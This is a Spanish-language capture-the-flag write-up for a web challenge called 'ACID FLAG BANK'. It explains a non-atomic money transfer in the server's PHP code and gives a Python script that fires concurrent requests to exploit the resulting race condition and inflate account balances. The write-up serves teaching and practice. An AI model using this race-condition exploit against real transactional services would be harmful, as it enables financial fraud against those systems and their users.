



# ACID FLAG BANK
## CATEGORÍA: WEB

### PRESENTACIÓN DEL PROBLEMA:

Al acceder al servidor otorgado por el ejercicio, se puede ver un programa en PHP, que parece ser el código fuente del servidor.

Allí se puede ver:
1. La clase `ChallDB`, que parece actuar como intermediario entre el código principal y la base de datos que almacena la información de las cuentas.
2. El código principal, que realiza una acción u otra dependiendo de los parámetros otorgados por la URL.
	1. Ingresar el parámetro "dump" hace que el servidor muestre la cantidad de dinero en cada cuenta.
	2. Ingresar el parámetro "reset" restaura la cantidad de dinero en las dos cuentas.
	3. Ingresar los parámetros "flag" y "from" hace que se compre la bandera con el dinero de la cuenta especificada en "from".
	4. Ingresar los parámetros "to", "from" y "amount" hace que se transfiera dinero de la cuenta "from" a la cuenta "to", siendo la cantidad de dinero determinada por "amount".




### PASO A PASO DEL PROCESO:

**Paso 1: Notar el problema en los algoritmos de transferencia entre cuentas** 

Como se puede ver en la siguiente imagen, la forma en la que se transfiere dinero entre cuentas es sumando y restando cantidades iguales en dos operaciones distintas.



De esto se puede asumir que no es una operación indivisible, y que por ello, es posible realizar una condición de carrera para cambiar la cantidad de dinero total entre las dos cuentas.

**Paso 2: Crear un programa en Python para realizar una condición de carrera** 

El programa hecho a continuación realiza 40 consultas simultáneas al servidor (aunque dependiendo de las circunstancias, es bastante posible de que haga menos).

Aviso: se debe fijar el valor de la variable `urlOrigin` a la URL del servidor otorgado por el ejercicio.

```python
import requests
from concurrent.futures import ThreadPoolExecutor

urlOrigin = ""
states = ("?to=2&from=1&amount=10", "?to=1&from=2&amount=10")

iterations = states * 20

def fn1(data):
	url = urlOrigin + data
	response = requests.get(url)
	print(response)

with ThreadPoolExecutor(max_workers = len(iterations)) as executor:
	executor.map(fn1, iterations)
```

**Paso 3: Utilizar el programa para aumentar la cantidad de dinero total en las dos cuentas**

Esto se hace ejecutando el programa varias veces hasta que se consiga.

Si en alguna ocasión la cantidad de dinero disminuye, hay que resetear el sistema con la URL `{origin}?reset`.

**Paso 4: Transferir todo el dinero a una cuenta y comprar la bandera**

Esto se hace con las rutas `{origin}?to={to}&from={from}&amount={amount}` y `{origin}?flag&from={from}`.

### FLAG:



**Autor: Santiago De Olivera**